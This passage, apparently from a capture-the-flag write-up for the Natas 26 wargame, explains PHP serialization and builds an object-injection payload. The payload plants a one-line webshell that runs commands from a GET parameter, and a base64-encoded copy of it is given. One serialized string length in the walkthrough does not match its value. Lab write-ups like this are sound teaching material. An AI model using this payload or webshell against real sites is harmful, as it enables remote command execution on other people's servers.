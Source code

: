Here the structure I need to explain is the &#8220;O&#8221;, which means the Object type.

> Objects are serialized as:
> 
> `O:<i>:"<s>":<i>:{<properties>}`
> 
> where the first `<i>` is an integer representing the string length of `<s>`, and `<s>` is the fully qualified class name (class name prepended with full namespace). The second `<i>` is an integer representing the number of object properties. `<properties>` are zero or more serialized name value pairs:
> 
> <span class="lang:php decode:true crayon-inline "><name><value></span>
> 
> where `<name>` is a serialized string representing the property name, and `<value>` any value that is serializable.

Our first pair is

{% highlight php %}
s:15:"\0Logger\0logFile";
s:31:"img/natas26_randomname.php";
{% endhighlight %}

and second pair is

{% highlight php %}
s:15:"\0Logger\0exitMsg";
s:21:"<pre> <?=`$_GET[1]`?>";
{% endhighlight %}

That will create a php at &#8220;/img/natas26_randomname.php&#8221; with a small webshell that reads our commands from the GET request as &#8220;/?1={cmd}&#8221;.

Taking out the tabs and doing a base64 encoding will result in "YToxOntpOjA7Tzo2OiJMb2dnZXIiOjI6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czoyNjoiaW1nL25hdGFzMjZfcmFuZG9tbmFtZS5waHAiO3M6MTU6IgBMb2dnZXIAZXhpdE1zZyI7czoyMToiPHByZT4gPD89YCRfR0VUWzFdYD8%2bIjt9fQ=="

It should be noted that the variable names in our serialized data have null bytes included because they are private variables, and that&#8217;s how they have to be represented. Per [stackoverflow](https://stackoverflow.com/questions/14297926/structure-of-a-serialized-php-string):

> `<name>` is represented as
> 
> `s:<i>:"<s>";`
> 
> where `<i>` is an integer representing the string length of `<s>`. But the values of `<s>` differs per visibility of properties:
> 
> a. With **public** properties `<s>` is the simple name of the property.
> 
> b. With **protected** properties, however, `<s>` is the simple name of the property, prepended with `\0*\0` — an asterix, enclosed in two `NUL` characters (i.e. `chr(0)`).
> 
> c. And with **private** properties, `<s>` is the simple name of the property, prepended with `\0<s>\0` — `<s>`, enclosed in two `NUL` characters, where `<s>` is the fully qualified class name.
